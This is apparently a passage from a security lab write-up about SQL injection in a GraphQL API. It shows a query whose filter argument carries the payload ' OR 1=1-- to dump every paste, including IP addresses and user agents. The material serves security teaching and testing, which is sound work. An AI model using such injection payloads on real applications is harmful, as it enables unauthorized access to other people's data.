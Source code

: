### SQL Injection

SQL injection is a vulnerability that allows an attacker to manipulate queries that an application makes to database. SQL injection may lead to sensitive data leakage, delete other user's data and even bypass Authentication mechanism put in place. To test SQL injection, add a single apostrophe at the end of data to be filtered. This results to an error message as shown in the figure below.

![Sql test](../images/graphql/graphl_injection1.png)

To get all the pastes we run the following GraphQL query where the **_OR_** condition is true and comment out the rest of the query using `--`.

```graphql
query {
  pastes(public: true, filter: "One advanced diverted' OR 1=1--") {
    content
    id
    userAgent
    ipAddr
    title
    ownerId
  }
}
```

The filter argument is vulnerable to graphQL SQL injection attacks.

![Graphql sql injection](../images/graphql/graphql_sqlinjection.png)
